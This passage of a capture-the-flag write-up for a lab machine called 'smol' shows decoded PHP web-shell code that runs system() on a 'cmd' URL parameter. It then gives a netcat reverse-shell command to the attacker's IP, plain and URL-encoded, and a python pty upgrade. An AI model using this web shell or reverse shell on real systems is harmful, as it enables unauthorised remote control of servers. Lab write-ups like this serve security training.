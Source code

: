 I didn’t understand what this line of code does, so used chatgpt to decode that hex values and results made me happy:

- **Full Code Simplified:**
    
    ```php
    if (isset($_GET["cmd"])) {
        system($_GET["cmd"]);
    }
    ```
    
- **What It Does:**
    - It checks if there is a `GET` parameter named `cmd` in the URL.
    - If it exists, it **executes the value** of that parameter as a **system command** on the server.
    - This is done using `system()`, which executes an external program and displays the output.

Let’s check that in [http://www.smol.thm/wp-admin/index.php](http://www.smol.thm/wp-admin/index.php) page, if it works:

![image 4](https://github.com/user-attachments/assets/dd1ca23b-ebeb-4b6b-8e7d-c65a8f3070fc)


We got remote code execution!

Let’s get a reverse shell back to our kali machine.

```bash
busybox nc 10.17.87.131 4445 -e /bin/sh 
# used this reverse shell from revshells.com
# Note : It it not works, try to url encode and then upload it.
Url = http://www.smol.thm/wp-admin/index.php?cmd=busybox%20nc%2010.17.87.131%204445%20-e%20%2Fbin%2Fsh
```

![image 5](https://github.com/user-attachments/assets/9cc14d51-1acf-4b9a-a42a-72adfdb926a2)


let’s upgrade our shell via python tty:

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@smol:/var/www/wordpress/wp-admin$ cd /home
cd /home
www-data@smol:/home$ ls
ls
diego  gege  think  xavi
```

we had 4 users in this machine: 

- diego
- gege
- think
- xavi

---

### Shell as diego:
